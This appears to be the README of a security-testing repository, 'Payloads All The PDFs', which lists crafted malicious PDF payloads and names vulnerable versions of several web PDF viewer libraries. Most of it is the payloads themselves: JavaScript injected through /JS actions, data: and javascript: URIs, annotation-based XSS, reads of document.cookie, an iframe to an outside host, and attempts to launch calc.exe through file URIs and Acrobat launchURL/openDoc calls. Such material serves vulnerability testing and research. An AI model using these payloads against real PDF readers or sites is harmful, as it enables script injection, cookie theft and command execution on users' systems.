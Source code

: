 # Payloads All The PDFs

<a href="https://twitter.com/intent/follow?screen_name=evaristegal0is"><img src="https://img.shields.io/twitter/follow/evaristegal0is?style=social" alt="Follow @evaristegal0is"></a>

A list of crafted malicious PDF files to test the security of PDF readers and tools.</br>

### Vulnerabilities found

- [Foxit PDF SDK For Web](https://www.npmjs.com/package/@foxitsoftware/foxit-pdf-sdk-for-web-library) 7.5.0 (~600 weekly downloads)
- [PDFTron WebViewer](https://www.npmjs.com/package/@pdftron/webviewer) 7.2.0, 7.3.1, 8.6.1 (~54k weekly downloads)
- [PSPDFKit for Web](https://www.npmjs.com/package/pspdfkit) 2021.4.1 (~13k weekly downloads)
- [Syncfusion ej2-pdfviewer](https://www.npmjs.com/package/@syncfusion/ej2-pdfviewer) 20.2.40 (~6.8k weekly downloads)
- [React PDF viewer](https://www.npmjs.com/package/@react-pdf-viewer/core) 3.6.0 (~34k weekly downloads)

## Payloads list

### payload1.pdf

**Line 31**. Understand if [Acrobat Javascript APIs](https://www.adobe.com/content/dam/acom/en/devnet/acrobat/pdfs/AcrobatDC_js_api_reference.pdf) are supported.
```
/JS (app.alert\(1\); Object.getPrototypeOf(function*(){}).constructor = null; ((function*(){}).constructor("document.write('<script>confirm(document.cookie);</script><iframe src=https://14.rs>');"))().next();)
```

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
/URI (data:text/html,<script>alert\(2\);</script>)
```

**Line 177**. Try to inject Javascript code using annotations.
```
<</Type /Annot /Rect [284.7745656638 581.6814031126 308.7745656638 605.6814031126 ] /Subtype /Text /M (D:20210402013803+02'00) /C [1 1 0 ] /Popup 15 0 R /T (\">'><details open ontoggle=confirm\(3\)>) /P 6 0 R /Contents (��^@"^@>^@'^@>^@<^@d^@e^@t^@a^@i^@l^@s^@ ^@o^@p^@e^@n^@ ^@o^@n^@t^@o^@g^@g^@l^@e^@=^@c^@o^@n^@f^@i^@r^@m^@\(^@'^@X^@S^@S^@'^@\)^@>) >>
```

### payload2.pdf

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
/URI (\">'><details open ontoggle=confirm\(2\)>)
```

### payload3.pdf

**Line 31**. Understand if the PDF reader or tool runs arbitrary Javascript bypassing the Acrobat APIs.
```
/JS (app.alert\(1\); confirm\(2\); prompt\(document.cookie\); document.write\("<iframe src='https://14.rs'>"\);)
```

**Line 69**. Try to run remote commands on Windows.
```
/URI (file:///C:/Windows/system32/calc.exe)
```

### payload4.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
/JS (app.alert\(1\); app.openDoc("/C/Windows/System32/calc.exe");)
```

**Line 69**. Try to run remote commands on Windows.
```
 /URI (START C:/\Windows/\system32/\calc.exe)
```

### payload5.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
/JS (app.alert\(1\); app.launchURL\("START C:/\Windows/\system32/\calc.exe", true\); app.launchURL\("javascript:confirm\(3\);", true\);)
```

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
 /URI (javascript:confirm\(2\);)
```

### payload6.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
 /JS (app.alert\(1\); app.launchURL\("/C/Windows/system32/calc.exe", true\); app.launchURL\("'><details open ontoggle=confirm\(3\);", true\);)
```

___

![Hack the planet](img/hack_the_planet.gif)

If you want to support me you can offer me a coffee ☕</br></br>
<a href="https://www.buymeacoffee.com/gubello" target="_blank"><img src="https://bmc-cdn.nyc3.digitaloceanspaces.com/BMC-button-images/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: auto !important;width: auto !important;" ></a>
